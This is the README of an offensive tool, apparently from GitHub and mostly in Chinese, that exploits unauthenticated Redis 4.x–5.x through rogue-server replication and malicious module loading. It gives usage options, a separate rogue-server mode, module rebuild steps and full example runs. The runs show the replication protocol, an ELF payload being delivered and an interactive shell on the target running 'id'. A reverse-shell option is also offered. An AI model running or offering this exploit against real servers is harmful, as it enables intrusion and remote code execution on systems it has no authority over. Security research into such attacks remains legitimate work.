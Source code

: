 # Awsome Redis Rogue Server

学习研究Redis未授权时发现现有文章对Redis Rogue Server RCE技术的原理不甚详细，随对原理进行进一步研究，对当前实现`Rogue Server`的`python`利用代码和`module.c`源码进行了学习与改进.

`Redis Rogue Server`的涉及主要技术为Redis的**主从复制**以及**外部模块加载**，攻击核心思路如下：

![redis-rogue-server.jpg](https://i.loli.net/2019/12/20/KfcrkUu89joGe34.png)



### 红队测试特性

+ 重写外部模块内存申请，避免被测试Redis服务器崩溃。
+ 更稳定的直连Shell与反弹Shell
+ 单独`Rogue Server`模式
+ `Redis-Cli`与`Rogue Server`分离模式
+ 可写路径尝试
+ 添加标准错误重定向
+ 优化Shell解码问题
+ `so`随机名称、加载模块名称变更
+ 模块卸载、`so`文件清理，保持服务器的服务正常
+ Redis pass认证

**详看源码**



### 适用范围

Redis 4.x <= 5.x



### Usage

```bash
$ python3 redis_rogue_server.py -h
usage: python3 redis_rogue_server.py -rhost [target_ip] -lhost [rogue_ip] [Extend options]

 Redis unauthentication test tool.

optional arguments:
  -h, --help      show this help message and exit
  -rhost RHOST    Target host.
  -rport RPORT    Target port. [default: 6379]
  -lhost LHOST    Rogue redis server, which target host can reach it.
                  THIS IP MUST BE ACCESSIBLE BY TARGET!
  -lport LPORT    Rogue redis server listen port. [default: 15000]
  -passwd PASSWD  Target redis password.
  -path SO_PATH   "Evil" so path. [default: module.so]
  -t RTIMEOUT     Rogue server response timeout. [default: 3]
  -s              Separate mod.
                  Whether Redis-Cli(This ip) and rogue Server(Can be other ip) are separated
                  rogue Server port listens locally by default, use flag -s shut down local port if lport conflict.
  -v              Verbose Mode.

Example:
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2 -rport 6379 -lport 15000

Only Rogue Server Mode:
  redis_rogue_server.py -v

```



### Example

```bash
$ python3 redis_rogue_server.py  -rhost 192.168.229.136 -lhost 192.168.229.150 -v
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[+] Accept connection from 192.168.229.136:44674
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\ne46ef23509ec51bb952dec34cb84e6c08388e5eb\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC d2b79a2fbd16c050cdf136838f67093efb76509 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00...'
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for redis IO and trans flow close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell ============================= 
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
[*] Plz wait for auto exit. Cleaning.... 
[!] DO NOT SHUTDOWN IMMEDIATELY!
[*] Done.
```



#### 分离模式

```
Rogue Server端: 192.168.229.150
攻击端: 192.168.229.136
```



不同于其他利用模块，将分离模式如用上图示所示。

先运行`Rogue Server`再运行攻击端`Redis-Cli`发送攻击指令，即本地将不会运行 `Rogue Server` ，而是依靠远程主机的 `Rogue Server`进行响应。



**Rogue Server端**

```bash
python3 ./redis_rogue_server.py  -v
[*] Listening on port: 15000
[+] Accept connection from 192.168.229.136:44762
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\na62cf45a906d4a68422cac6f835108dbecb25f3b\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC b79062efe2211aa8328ab4da3d501fa21b2ac54a 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00...'
[*] Wait for redis IO and trans flow close...
```



**攻击端**

```bash
python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -s -v
[*] Separate Mode. Plz insure your Rogue Server are listening.
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[*] Wait 3 secs for REMOTE Rogue Server response.(Use flag -t [N] to change timeout)
[!] Make sure your remote Rogue Server is working now!
[*] Exploit Step-2.
[*] Done.
[+] It may crash target redis cause transfer large data, be careful.
[?] Shell? [i]interactive,[r]reverse:i
[!] DO NOT USING THIS TOOL DO ANYTHING EVIL!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
```





#### 模块源码重编译

修改`RedisModules/src/module.c`，然后运行编译`make`

```bash
$ vim ./RedisModules/src/module.c
$ cd RedisModules
$ make
```



### 参考：

[ https://github.com/RicterZ/RedisModules-ExecuteCommand ]( https://github.com/RicterZ/RedisModules-ExecuteCommand )



### 声明

**该项目仅作为安全学习交流之用途，请遵守当地法律法规，任何用于非法用途产生的后果将由使用者本人承担。**

**All responsibilities are at your own risk., Please use it only for research purposes.**